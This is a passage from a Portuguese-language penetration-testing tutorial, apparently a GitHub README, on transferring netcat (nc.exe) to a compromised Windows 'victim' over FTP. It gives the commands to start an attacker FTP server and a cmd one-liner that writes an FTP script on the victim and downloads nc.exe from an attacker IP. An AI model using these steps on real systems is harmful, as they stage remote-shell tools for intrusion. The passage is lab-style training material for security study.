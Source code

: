 ```bash
cp -v /usr/share/windows-binaries/nc.exe .
```

2. Suba o servidor ftp

```bash
sudo python -m pyftpdlib -p 21 -u kirito -P kirito
```

Uma vez com todas essas etapas configuradas, podemos seguir para o ambiente Windows - Vítima para realizar o processo de Download.

### Processo de Download (Máquina Windows - Vítima)

Geralmente quando conquistamos um terminal no Windows esse terminal não é interativo, desse modo precisamos realizar alguns passos a mais para conseguir realizar o download usando o FTP, para isso siga as etapas abaixo:

1. Abra um terminal cmd ou powershell e crie um arquivo de conexão ao servidor FTP do atacante contendo os comandos/instruções a serem executados sequencialmente:

```powershell
echo open 172.16.192.200> ftp.txt
```

```powershell
echo USER kirito>> ftp.txt
```

```powershell
echo kirito>> ftp.txt
```

```powershell
echo bin>> ftp.txt
```

```powershell
echo GET nc.exe>> ftp.txt
```

```powershell
echo bye>> ftp.txt
```

2. Faça o download do arquivo executando as instruções do arquivo texto "ftp.txt"

```bash
ftp -v -n -s:ftp.txt
```

3. Para realizar todos os passos acima em uma única linha utilize o comando abaixo:

```bash
cmd /c "@echo open 172.16.192.200>ftp.txt&@echo USER kirito>>ftp.txt&@echo kirito>>ftp.txt&@echo bin>>ftp.txt&@echo GET nc.exe>>ftp.txt&@echo bye>>ftp.txt&@ftp -v -n -s:ftp.txt"
```

## Python Server
